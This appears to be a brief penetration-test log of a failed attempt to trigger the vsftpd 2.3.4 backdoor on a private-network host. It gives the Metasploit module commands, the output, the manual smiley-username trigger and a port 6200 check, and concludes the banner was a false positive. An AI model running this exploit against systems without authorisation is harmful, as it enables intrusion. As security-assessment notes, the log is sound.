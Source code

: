# vsftpd 2.3.4 Exploit Attempt
Date: 2025-05-27
Tool: Metasploit (exploit/unix/ftp/vsftpd_234_backdoor)

Command run:
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.6.3
run

Result:
[*] 192.168.6.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.6.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.

Further manual testing:
- Sent 'USER trigger:)' and observed 331 response
- Scanned for port 6200 using Nmap, but no bind shell detected
- Conclusion: Host is not running the backdoored vsftpd binary or shell failed to spawn

Assessment: This is a false positive banner. No shell access gained via this vector.
